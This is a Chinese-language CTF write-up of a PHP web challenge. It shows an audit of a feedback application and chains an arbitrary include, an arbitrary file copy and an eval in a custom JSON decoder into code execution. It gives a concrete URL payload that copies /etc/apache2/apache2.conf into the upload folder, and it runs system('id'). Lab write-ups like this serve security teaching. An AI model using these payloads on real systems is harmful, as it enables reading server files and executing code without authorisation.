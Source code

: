 ```yaml
---
layout: post
title: 条条大路通罗马系列1 web writeup
category: writeup
tags: ctf
description:
---
```


[三个白帽][1]

0x00 代码审计
----
访问/sgbmwww.zip下载源码，里面只有sgbmwww里的内容.
功能是简单的反馈，表单经过自写的jsonencode()处理然后insert入库.


  `include.php`
定义了变量$_M['form']
第100行

    $_M['form'] =array();
    isset($_REQUEST['GLOBALS']) && exit('Access Error');
    foreach($_COOKIE as $_key => $_value) {
	        $_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
    }
    foreach($_POST as $_key => $_value) {
         	$_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
    }  
    foreach($_GET as $_key => $_value) {
	        $_key{0} != '_' && $_M['form'][$_key] = daddslashes($_value);
    }



cookie 和post,get 都是可控的.


 - 任意包含php
 在`index.php` 第6行

    include PATH_WEB . $_M['form']['class'].'.php';

`$_M['form']['class']`可控可惜后缀写死了php
 - 任意文件复制(实现读取)
`upfile.php`第64行
```
	if (move_uploaded_file($file_tmp, $file_name)) {
		$upfileok=1;
	} else if (copy($file_tmp, $file_name)) {
		$upfileok=1;
	}
```
这里`$file_tmp`可控,`$file_name`由`set_savename()`来控制.
如果`$_M['form']['is_rename']`为0`$_M['form']['name']`过滤一番然后赋值给$file_name

`$_M['form']`都可控.
payload:
```
/index.php?class=upfile&is_rename=0&formname[tmp_name]=/etc/apache2/apache2.conf&formname[name]=xx.2333
```
发送以后访问 /upload/xx.2333
得到
![][2]

发现并木有开放8080端口.
利用这个读取把`/var/www/html/sgbmadmin/index.php`读了。
 - 代码执行
sgbmadmin/index.php 第46行
`$content = jsondecode($row['content']);`
jsondecode()有个eval可控
通过eval来执行php代码。(配合上面的任意php include漏洞执行我们代码)
![][3]


利用发现的注入插入构造的代码

![2.png][4]

base64个system('id')
出来是这样的

![3.png][5]

ps:多谢大神的指点.

  [1]: http://www.sangebaimao.com
  
  [2]: https://img.scanfsec.com/img/2016051606574559.jpg
  [3]: https://img.scanfsec.com/img/2016054269772163.jpg
  [4]: https://img.scanfsec.com/img/2016051398011588.png
  [5]: https://img.scanfsec.com/img/201605999126804.png
